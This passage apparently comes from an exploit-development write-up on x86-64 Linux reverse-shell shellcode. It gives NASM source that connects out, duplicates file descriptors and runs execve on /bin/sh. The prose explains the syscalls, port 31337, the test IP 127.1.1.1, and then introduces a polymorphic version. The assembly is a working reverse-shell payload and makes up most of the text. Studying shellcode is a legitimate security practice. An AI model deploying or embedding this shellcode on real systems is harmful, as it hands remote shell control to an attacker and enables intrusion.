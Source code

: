 ```nasm
	pop rdx
	
	push r8
	pop rdi

	push 0x2a
	pop rax

	syscall

	xor rsi, rsi
	push 0x3
	pop rsi

doop:
	dec rsi

	push 0x21
	pop rax
	
	syscall

	jne doop

	xor rdi, rdi
	push rdi
	push rdi
	pop rsi
	pop rdx

	mov rdi, 0x68732f6e69622f2f

	shr rdi, 0x8

	push rdi
	push rsp
	pop rdi
	
	push 0x3b
	pop rax

	syscall
```

A change that was made to test the shellcode was the IP address to connect to. From `192.168.1.10` it became `127.1.1.1` and in little endian hexadecimal format: `0x0101017f`.

Briefly, the following syscalls are executed: `socket`, `connect`, `dup2` and `execve`. The important things to note are: the port to connect to is `31337` and the original string in `execve` is "//bin/sh" that after the shifting becomes "/bin/sh\0".

The polymorphic version (`tcpreverseshell.nasm`) is the following:
